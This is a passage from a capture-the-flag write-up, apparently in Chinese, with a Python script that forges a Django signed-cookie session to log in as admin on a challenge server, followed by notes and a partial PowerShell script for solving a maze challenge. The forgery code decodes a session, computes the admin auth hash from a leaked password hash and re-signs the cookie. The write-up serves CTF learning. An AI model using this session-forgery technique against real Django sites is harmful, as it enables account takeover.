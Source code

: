 ```python
def decode(s):
    return signing.loads(sess,key=None,salt = "django.contrib.sessions.backends.signed_cookies",max_age=1209600)

def encode(s):
    return signing.dumps(sess,key=None,salt = "django.contrib.sessions.backends.signed_cookies",compress = True)

def requestByCk(ck):
    mcookie = {"sessionid":ck}
    r = requests.get("http://202.38.93.241:10019/profile",cookies = mcookie,allow_redirects=False)
    if(r.status_code == 200):
        rawstr = (r.text)
        username = re.findall(r"欢迎您，(.....)！", rawstr)
        if(username[0] == 'admin'):
            flag = re.findall(r"flag{.*}", rawstr)
            print(flag[0])
    elif(r.status_code == 302):
        print("Wrong Cookie.")
    else:
        print("Error:"+r.status_code) 


sess = ".eJxVjDEOgzAMRe_iGUUQULE7du8ZIid2GtoqkQhMVe8OSAzt-t97_wOO1yW5tersJoErWGh-N8_hpfkA8uT8KCaUvMyTN4diTlrNvYi-b6f7d5C4pr1uGXGI6AnHGLhjsuESqRdqByvYq_JohVDguwH3fzGM:1iKXmf:PfphreMrpv-FPLjjGGKUkcFgc2Q"
sess = decode(sess)
print("decode:")
print(sess)

password = "pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE="
adminHash = salted_hmac("django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash", password).hexdigest()
print(adminHash)

sess["_auth_user_id"] = "1"
sess["_auth_user_hash"] = adminHash
print("changed:")
print(sess)
sess = encode(sess)
print("encode:")
print(sess)
requestByCk(sess)
```

## PowerShell 迷宫
连接上服务器，cd到根目录，find查找`PSMaze.dll`，发现在`opt`文件夹中
使用`base64`命令输出，拿到程序二进制进行分析
发现在`MazeProvider.GetCellRepr`函数中会对当前节点进行判断，如果是终点则进行sha256计算，计算flag
通过BFS或Dijkstra算法得到迷宫起点到终点的最短路径，然后cd到该目录获得flag
写个powershell脚本遍历即可（使用Where-Object进行过滤，不走重复路线）
脚本：
```
Import-Module ./PSMaze.dll

function print_i($i) {
    if($i.X -eq 63){
        if($i.Y -eq 63){
        write-host $i.PSPath -fore green
        write-host $i.Flag -fore red
    }
    }
```